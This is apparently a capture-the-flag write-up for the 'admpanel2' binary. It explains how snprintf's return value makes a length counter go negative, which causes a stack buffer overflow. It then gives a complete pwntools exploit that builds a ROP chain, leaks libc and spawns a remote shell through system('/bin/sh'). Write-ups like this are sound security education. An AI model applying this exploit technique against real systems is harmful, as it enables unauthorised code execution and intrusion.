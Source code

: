 # amdpanel2
> LongChampion, 06/04/2020

## Challenge
This challenge is exactly `admpanel` with a patch, so you can't inject command anymore.  
So let we move our attention to other place, and the most potential target is `Notice`:
```cpp
char *__fastcall Notice(char *a1, int IsAdmin, char *user, _BYTE *command)
{
  char *result; // rax
  _BYTE *Command; // [rsp+0h] [rbp-140h]
  char *User; // [rsp+8h] [rbp-138h]
  char buf; // [rsp+20h] [rbp-120h]
  int counter; // [rsp+12Ch] [rbp-14h]
  size_t maxlen; // [rsp+130h] [rbp-10h]
  char *p; // [rsp+138h] [rbp-8h]

  User = user;
  Command = command;
  p = &buf;
  maxlen = 256LL;
  counter = snprintf(&buf, 0x100uLL, "LOG: [OPERATION: %s] ", a1);
  if ( counter < 0 )
    exit(1);
  p += counter;
  maxlen -= counter;
  if ( IsAdmin )
  {
    counter = snprintf(p, maxlen, "[USERNAME: %s] ", User);
    if ( counter < 0 )
      exit(1);
    p += counter;
    maxlen -= counter;
  }
  if ( *Command )
  {
    counter = snprintf(p, maxlen, "%s", Command);
    if ( counter < 0 )
      exit(1);
    p += counter;
    maxlen -= counter;
  }
  fprintf(stderr, "%s\n", &buf);
  if ( IsAdmin )
    result = User;
  else
    result = 0LL;
  return result;
}
```
I have read this function and assembly of it carefully, but I didn't see any vulnerability here.  
Few hours later, my friend (@midas) given me an interesting hint about [`snprintf`](http://www.cplusplus.com/reference/cstdio/snprintf/):
```
If the resulting string would be longer than n-1 characters, the remaining characters are discarded and not stored, but counted for the value returned by the function.
```
Well, according to this property, if our `User` is long enough, we can make `maxlen` be negative. It lead to an buffer overflow!  
Note that the binary is compare only first 5 bytes of out username with "admin", so any username begin with "admin" will work.

## Solution
```python
#!/usr/bin/env python2
from pwn import *
context.binary = "./admpanel2"

r = remote("admpanel2-01.play.midnightsunctf.se", 31337)
lib = ELF("./libc.so", checksec=False)


def Login(User, Pass):
    r.sendlineafter(">", "1")
    r.sendlineafter("username:", User)
    r.sendlineafter("password:", Pass)


def Run(Command):
    r.sendlineafter(">", "2")
    r.sendlineafter("execute:", Command)


Login("admin".ljust(250, 'A'), "password".ljust(250, 'B'))

ret = 0x401016
pop_rdi = 0x4016cb
puts_got = 0x404020
puts_plt = 0x401040
main_addr = 0x4015D0

Run(p64(ret) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr))
Leak = r.recvline()
Leak = r.recvline()[:-1]
print "Leak =", Leak
Leak = u64(Leak.ljust(8, '\0'))
log.info("Leak: " + hex(Leak))
LIBC = Leak - lib.symbols["puts"]
log.success("LIBC: " + hex(LIBC))

Login("admin".ljust(250, 'A'), "password".ljust(250, 'B'))
system = LIBC + lib.symbols["system"]
binsh = LIBC + lib.search("/bin/sh\0").next()
Run(p64(ret) + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system))

r.interactive()
```
Any question like "How long is the username?" or "Why these is a ret gadget in payload?" can be answer by debug the binary.
